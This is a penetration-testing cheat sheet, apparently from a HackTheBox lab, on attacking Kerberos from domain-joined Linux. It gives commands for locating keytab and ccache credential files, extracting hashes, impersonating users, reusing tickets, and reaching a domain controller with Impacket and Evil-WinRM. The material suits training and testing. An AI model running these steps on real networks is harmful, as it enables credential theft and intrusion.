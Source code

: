 #### Linux

**Identifying Linux and Active Directory integration**
````
- realm - Check if Linux machine is domain-joined -
$ realm list

In case realm is not available, we can also look for other tools used to integrate Linux with Active Directory such as sssd or winbind.

- PS - Check if Linux machine is domain-joined -
$ ps -ef | grep -i "winbind\|sssd"
````
**Finding KeyTab files**
````
$ find / -name *keytab* -ls 2>/dev/null
$ crontab -l
````
**Finding ccache files**
````
$ env | grep -i krb5

- Searching for ccache files in /tmp -
$ ls -la /tmp
````
**Listing KeyTab file information**
````
$ klist -k -t /opt/specialfiles/carlos.keytab
````
**Impersonating a user with a KeyTab**
````
$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
````
**KeyTab Extract**
````
- Extracting KeyTab hashes with KeyTabExtract -
$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
````
**Abusing KeyTab ccache**
````
- Importing the ccache file into our current session -
# export KRB5CCNAME=<ticket>
# klist
````
**Impacket**
````
$ impacket-wmiexec dc01 -k
````
**Get Ticket with Impacket**
````
$ impacket-getTGT <domain>/<user> -dc-ip <DC-IP> -hashes :<hash>
$ impacket-getTGT <domain>/<user> -dc-ip <DC-IP>
````
**Evil-WinRM**
````
$ sudo apt-get install krb5-user -y

$ cat /etc/krb5.conf
[libdefaults]
        default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = dc01.<domain>
    }

$ evil-winrm -i dc01 -r <domain>
````